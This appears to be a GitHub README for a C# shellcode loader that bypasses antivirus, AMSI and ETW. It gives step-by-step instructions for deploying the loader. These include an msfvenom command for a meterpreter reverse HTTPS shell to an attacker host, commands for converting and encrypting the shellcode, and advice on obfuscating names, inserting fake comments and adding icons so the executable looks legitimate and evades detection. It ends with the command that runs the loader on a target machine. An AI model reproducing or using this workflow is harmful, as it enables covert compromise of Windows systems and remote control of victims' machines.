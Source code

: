 ### C# ShellCode Loader 3
--------------------------------------
Shellcode loader (written in C#) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode execution using Asynchronous Procedure Call (APC) and the NtTestAlert function
  - AES-256 Shellcode Encryption (CBC Mode)
  - AMSI bypass (patching 'AmsiScanBuffer')
  - ETW bypass (user-mode / patching 'EtwEventWrite')
  - Dynamic API resolution (via GetProcAddress and LoadLibrary)
  - Memory protection change after copy (PAGE_READWRITE changed to PAGE_EXECUTE_READ)
  - Shellcode Loader with file input support
    - the loader accepts a local text file containing an AES-256 encrypted and Base64-encoded C# shellcode as input.
  - Basic sandbox detection & evasion
    - Terminates execution if the host Windows machine is not joined to a specific domain
    - Terminates execution if a debugger is detected (basic anti-debugging check)
  - Supports shellcodes generated by multiple Command-and-Control (C2) frameworks such as Metasploit and Havoc
    
#### USAGE
  - STEP 1. Generate a Csharp shellcode with your favorite C2 framework or generate a "raw" shellcode and then convert it to the Csharp format.
```
Examples
--------
[*] METASPLOIT C2 Framework 
    $ msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o csharp_stageless-shellcode

[*] HAVOC C2 Framework 
    Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64; Indirect Syscall enabled; no sleep obfuscation; amsi/etw patching technique: hardware breakpoints)
    Then convert the raw shellcode to the Csharp format:
    > Manual option:
      @Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2
      @Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3
   > Or use a tool like "SUPERNOVA" to convert it (SuperNova is a shellcode encryptor & obfuscator tool - https://github.com/nickvourd/Supernova)
``` 

  - STEP 2.  Use the tool "Shellcode-Crypter-and-Encoder.exe" to encrypt your shellcode using AES-256, then encode the encrypted output in Base64 format and save the result to a file.
 ```
C:\Temp> Shellcode-Crypter-and-Encoder.exe
[*] Usage:
    > Shellcode-Crypter-and-Encoder.exe <path_to_C#_shellcode_file> <AES key>
[*] Example:
    > Shellcode-Crypter-and-Encoder.exe Csharp_shellcode.txt SuperAesKey > Encrypted_and_bas64encoded_shellcode.txt
```
  - STEP 3. OPSEC requirements - Manually obfuscate the C# shellcode loader file
  	- Rename the namespace, classes, methods, and variables.
  	- Remove all existing comments and insert fake ones.
    - Remove all console output messages (i.e., Console.WriteLine("text")).
  	- Modify the code structure or logic slightly if needed to evade signature-based detection.
    - Etc.

  - STEP 4. Compile the C# shellcode loader  
    <i/> Note: Adding an icon file and assembly attributes can make your executable appear more legitimate. </i>
```  
[*] Example with "Developer PowerShell for VS 2022" - Microsoft (R) Visual C# Compiler
    > csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs AssemblyInfo.cs -nowarn:1691,618  -win32icon:.\icon.ico
``` 
  - STEP 5. Execute the shellcode loader on a target Windows server or laptop
```
[*] Usage :
    > loader.exe <domain name> <C:\filepath\Encrypted_and_bas64encoded_shellcode.txt> <AES key>
[*] Example:
    > loader.exe lab.local C:\temp\Encrypted_and_bas64encoded_shellcode.txt SuperAesKey
[*] Note:
    > Argument 1 = The domain name of the target Windows machine. Used for sandbox detection/evasion by verifying domain membership.
    > Argument 2 = The file path to the AES-256 encrypted and Base64-encoded shellcode (i.e., C:\path\file.txt or .\path\file.txt).
    > Argument 3 = The AES passkey to decrypt the shellcode.
``` 
#### LICENSE
  - GNU General Public License v3.0
